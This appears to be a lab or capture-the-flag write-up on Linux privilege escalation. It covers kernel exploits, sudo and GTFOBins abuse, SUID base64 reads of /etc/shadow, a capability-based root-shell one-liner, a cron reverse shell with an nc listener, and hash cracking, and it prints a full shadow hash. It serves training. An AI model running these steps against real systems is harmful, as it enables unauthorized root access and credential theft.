 
## *Enumeration*
>	- Use `hostname` command.
>	- Use `cat /proc/version` command.
>	- Use `cat /etc/issue` command.
>	- Use `python -V` command.![](basic-info.png)
>	- Using the found version to lookup a vulnerability on `exploit-db`.![](kernel-cve.png)

## *Privilege Escalation*
### *Kernel Exploits*
>	 - Get the exploit from `/usr/share/exploitdb/exploits/linux/local/` and save it in current directory for it to be hosted with a python server.![](py-server.png)
>	 - Install the exploit on the target machine using `wget`. No permissions to create a file, so traverse to `/tmp/` and install it.![](exploit-installed.png)
>	 - Use `gcc` to compile the file, and then run the output.![](priv-esc.png)
>	 - Discover the structure of the directories to find the flag.![](flag-1.png)
### *Sudo Exploits*
>	- Use `sudo -l` to list all commands that the user can run with sudo.![](sudo-commands.png)
>	- Use `find` to get he path of the `flag2` file.![](flag-2.png)
>	- Going to `GTFObins` to look for a way to spawn a root shell using `nmap`, the answer is `sudo nmap --interactive`. ![](gtfo-nmap.png)
>	- Going to `GTFObins` to get a root shell using `find`.![](gtfo-find.png)
>	- ![](find-root-shell.png)
>	- ![](frank-hash.png)
>	- The hash is `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwoBJpphrPRJWjelWEz2HH.joV14aDwW1c3CahzB1uaqeLR1`
### *SUID Exploitation*
>	- Get users using `cat /etc/passwd | grep "home" | cut -d ":" -f 1`.![](suid-users.png)
>	- Using `find / -type f -perm -u=s 2>/dev/null` to get binaries with `SUID` bit set.![](suid-find-1.png)![](suid-find-2.png)
>	- Going to `GTFObins` to look up the found binaries.
>	- Using `base64` to read the content of `/etc/shadow` and the `/etc/passwd` files.![](suid-gtfo-base64.png)![](suid-shadow.png)
>	- The `user2` hash can be found, copy the content of both files to and save them on the attack machine in `shadow.txt` and `passwd.txt` respectively. ![](suid-shadow-passwd.png)
>	- ![](suid-user2-cracked.png)
>	- Now change the user to `user2` using the cracked password.![](suid-su-user2.png)
>	- Use the same process used to get the content of `/etc/passwd` to get the content of the `flag3.txt`.![](flag-3.png)
### *Capabilities*
>	- Using `getcap -r / 2>/dev/null` to list the enabled capabilities.![](cap-enabled.png)
>	- Using `GTFObins` to search for the found binaries to get a root shell.![](cap-gtfo-shell.png)
>	- Now Using `./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` to open up a root shell. ![](cap-root-shell.png)
>	- Flag can be found at `/home/ubuntu/flag4.txt`.![](flag-4.png)
### *Cron Jobs*
>	- Use `cat /etc/crontab` to get the list of cron jobs.![](cron-crontab.png)
>	-  Change the script in `backup.sh` to open up a reverse shell.![](cron-backup-script.png)
>	- Change the permissions of the file using `chmod +x backup.sh`, and open a listener using `nc -lvnp 6666`. ![](cron-reverse-shell.png)
>	- Flag can be found at `/home/ubuntu/flag5.txt`.![](flag-5.png)
>	- Matt's hash can be found at `/etc/shadow`. ![](cron-matt-hash.png)
>	- Using `john` to crack the hash.![](cron-matt-pass.png)
>	- 